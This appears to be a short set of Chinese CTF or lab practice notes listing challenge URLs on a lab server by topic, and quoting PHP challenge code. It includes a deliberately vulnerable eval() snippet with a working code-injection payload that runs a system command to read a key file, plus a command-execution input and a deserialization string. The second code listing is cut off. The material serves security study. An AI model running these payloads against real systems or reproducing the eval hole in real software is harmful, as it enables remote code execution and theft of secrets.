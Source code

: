 http://123.60.47.130:8681/

万能密码





http://123.60.47.130:8682

上传

http://123.60.47.130:8683

文件包含，解析

http://123.60.47.130:8685

暴力破解

http://123.60.47.130:8894/start/index.php

反序列化

http://123.60.47.130:8895/start/index.php

验证xxf 127和验证是否是管理员

http://123.60.47.130:8894/start/index.php?str=s:44:"Whatever is worth doing is worth doing well.";



http://123.60.47.130:10032/

代码审计

```
<?php
error_reporting(0);
include "key4.php";
$a=$_GET['a'];
eval("\$o=strtolower(\"$a\");");
echo $o;
show_source(__FILE__);
```

http://123.60.47.130:10032/?a=${system("cat key4.php")}


http://123.60.47.130:11005/

命令执行 cmd=ls >>1.txr

http://123.60.47.130:10031/code1.php

代码审计

```php
<?php
show_source(__FILE__);
$v1 = 0;
$v2 = 0;

$a = (array)json_decode(@$_GET['w']);  //接受json串

if (is_array($a)) {  //是否是数组
    is_numeric(@$a["bar1"]) ? die("nope") : NULL;  //是否纯数字

    if (@$a["bar1"]) {
        var_dump($a["bar1"]);
        $ww=$a["bar1"] > 2020;
        var_dump($ww);
        ($a["bar1"] > 2020) ? $v1 = 1 : NULL;

    }

    if (is_array(@$a["bar2"])) {  //数组
```